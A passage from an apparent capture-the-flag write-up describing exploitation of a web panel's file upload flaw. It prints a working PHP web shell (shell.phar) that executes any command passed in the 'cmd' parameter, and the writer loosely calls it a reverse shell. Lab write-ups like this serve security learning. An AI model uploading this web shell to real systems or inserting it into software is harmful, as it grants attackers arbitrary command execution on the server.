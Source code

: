 ```terminal
---------------------------------------------- ---------------------------------
```

Looks like there is an arbitrary file upload exploit available, looking through the exploit, it authenticates to the panel, uploads a php script which will allow us pass it commands as a parameter and then returns the url. Lets do this manually instead.

First step is to create a reverse shell
```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>

```
{: file="shell.phar" }
Let's upload it to the site and get the path.
![website-screenshot](assets/img/writeupscreenshots/techsupport-2.png)
![website-screenshot](assets/img/writeupscreenshots/techsupport-3.png)

